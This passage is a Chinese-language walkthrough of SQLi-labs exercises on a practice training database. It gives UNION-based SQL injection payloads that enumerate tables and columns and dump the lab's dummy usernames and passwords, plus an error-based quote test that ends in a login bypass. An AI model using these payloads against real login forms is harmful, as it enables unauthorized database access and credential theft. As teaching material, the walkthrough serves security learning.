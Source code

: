 从数据库中 <font color="red">选取了 2 个字段</font> 
sql 语句：`select col1,col2 from tables where username='$username' and password='$password' limit 0,1`

## 1.4 利用 information_schema 获得信息
### 1.4.1 union 获得数据库和版本
username：  `' union select 1,2#`
![](http://ww1.sinaimg.cn/large/005CA6ZCgw1f79b3e50bhj30fa09qjrz.jpg)
1,2 可以在页面上显示

username ： `' union select database(),version()#`
![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f79b42mszyj30fa09st9f.jpg)
数据库：security
版本：5.6.17
### 1.4.2 表名
username： `' union select 1,group_concat(distinct table_name) from information_schema.tables where table_schema=database()#`
![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f79b4vbkc2j30fa09qjs4.jpg)
表：emails,referers,uagents,users

### 1.4.3 字段名
username： `' union select 1,group_concat(distinct column_name) from information_schema.columns where table_schema=database()#`
![](http://ww1.sinaimg.cn/large/005CA6ZCgw1f79b7ei1aej30h80a0ab0.jpg)
字段名：id,email_id,referer,ip_address,uagent,username,password

### 1.4.4 账号和密码
username： `' union select group_concat(username),group_concat(password) from users#`
![](http://ww1.sinaimg.cn/large/005CA6ZCgw1f79bb7r92nj30p70acq4e.jpg)

username | password | username | password
-- | --| --| --
Dumb | Dumb | Angelina | I-kill-you
Dummy | p@ssword | secure | crappy
stupid | stupidity | superman | genious
batman | mob!le | admin | admin
admin1 | admin1 | admin2 | admin2
admin3 | admin3 | dhakkan | dumbo
admin4 | admin4 |   |  

# 2 lesson 12 POST-基于错误-双引号-一个括号
## 2.1 判断注入类型
输入 | 说明
-- | --
admin ' | 页面显示 `LOGIN ATTEMPT FAILED`
admin " | You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"admin "") and password=("") LIMIT 0,1' at line 1
admin ")# | SUCCESSFULLY LOGGED IN

